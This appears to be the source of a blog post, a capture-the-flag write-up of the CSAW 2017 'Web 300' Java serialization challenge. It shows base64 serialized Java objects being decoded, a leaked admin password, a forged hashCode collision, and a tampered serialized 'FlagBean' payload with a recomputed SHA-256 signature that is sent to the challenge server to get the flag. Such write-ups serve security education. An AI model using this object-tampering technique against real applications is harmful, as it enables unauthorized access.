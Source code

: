 ```yaml
---
layout: post
title:  "Java Serialization - CSAW Web 300"
image: ''
date:   2017-09-18 00:06:31
tags:
- Java Serialization, CSAW-Qualifiers, CSAW-2017
description: 'Web 300 - Java Serialization'
categories:
- Web, Java Serialization
---
```


So after a break from last year writing blogs, I thought of writing blog for this particular challenge for the reason that the time it took to get solved and also the method involved to solve this particular challenge.

The challenge description was `Not My Cup of Coffee, I heard you liked food based problems, so here's a liquid one.`
<a href="http://web.chal.csaw.io:8616"> Challenge Link</a>

Clicking on the link directs us to home where they have some beans already present in a table in which scrolling down shows `Flag` which we are interested in. Below that there was a link to the `admin` panel which led to a password protected page. When I tried entering random values, it showed incorrect. For a moment, I thought it would be injection but did not seem to work out.

Later, going back to the main page had an option of `Start breeding` wherein there is a coloumn where there were two fields to enter our input and another two boxes containing parent1 and parent2. Randomly tried giving in some input and gave the default parent which was `Covfefe`.

Redirecting to the home page and scrolling down showed us that our value got input with a description as well of `Covfefe`. Since there was `Flag` below that, my essential aim was to see which parent's description was inherited and bingo, it was parent1. Also we were able to see that the parent list in the `Start Breeding` page had new options being added with the Name that we gave before.

Later on going through the source code revealed that there was something next to the option, which was more of like a alphanumeric string seperated by a hash. Was able to get that the first was a base64 string and the second, some hex string. Decoding the base64 string of one of the options, here I took `Covfefe`, revealed a string.

{% highlight python %}
In [2]: base64.b64decode("rO0ABXNyABJjb2ZmZWUuQ292ZmVmZUJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb
   ...: 2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAHQ292ZmVmZXBw")
Out[2]: '\xac\xed\x00\x05sr\x00\x12coffee.CovfefeBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x07Covfefepp'
{% endhighlight %}

So after a bit of traversal through the web site, there was a request to `admin.jsp` and going to that (http://web.chal.csaw.io:8616/admin.jsp) dumped the password with a `$` sign in between.

{% highlight java %}
String result;
26:           // NOTE: Change $ to s when page is ready
27:           auth.loadPassword("Pas$ion");
28:           if (!guess.matches("[A-Za-z0-9]+")) {
29:             result = "Only alphanumeric characters allowed";
30:           } else {
31:             result = auth.lookup(guess.hashCode());
{% endhighlight %}

but since JavaCodes are deterministic, we can create one that matches this and that was `ParCipO`. Logging in to the admin page with this string gave me a key which was `c@ram31m4cchi@o`. Also, we had a hash appended towards the end of the serialized beans. After a bit of digging, I found that the hash appended was just a salt and not anything else. Now basically I had to craft a payload which contains the keyword `Flag` in it, appended with the salt.

The next thing was crafting the `parent1` as `payload + "-" + sha256sumhex(payload + salt)` where `salt` was `c@ram31m4cchi@o`. Essentially, crafting the payload was a bit task so in the beginning, my team-mate <a href=http://www.i4info.in/> Heeraj</a> and I had thought of replacing `Covfefe` with `Flag` and had sent request by modifying `parent1` but yielded no result. Then what we had thought was the string length of `Flag` with that of `Covfefe`. Yes, it is different and hence would alter the structure. So the very next moment, we took the base64 of `Raid`, updated with `Flag` and appended the hash that was to be appended which was `6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.

{% highlight python%}
In [3]: base64.b64decode("rO0ABXNyAA9jb2ZmZWUuUmFpZEJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZ
   ...: WUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAEUmFpZHBw")
Out[3]: '\xac\xed\x00\x05sr\x00\x0fcoffee.RaidBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Raidpp'

In [4]: str = "\xac\xed\x00\x05sr\x00\x0fcoffee.FlagBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x
   ...: 00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07pare
   ...: nt1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Flagpp'"
{%endhighlight%}

So the final string that had to be sent to the server in `parent1` was `rO0ABXNyAA9jb2ZmZWUuRmxhZ0JlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAERmxhZ3Bw-6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.

Bingo, modifying the request of `parent1` with the parameter of `Name` filled gives us the flag

<figure class="foto-legenda">
	<img src="{{ "/assets/img/ctfwriteup/burpfinal.png"}}" alt="">
	<figcaption> <p>Modifying the parameter with Burp.</p>
	</figcaption>
</figure>

`flag{yd1dw3wr1t3th15j@v....`
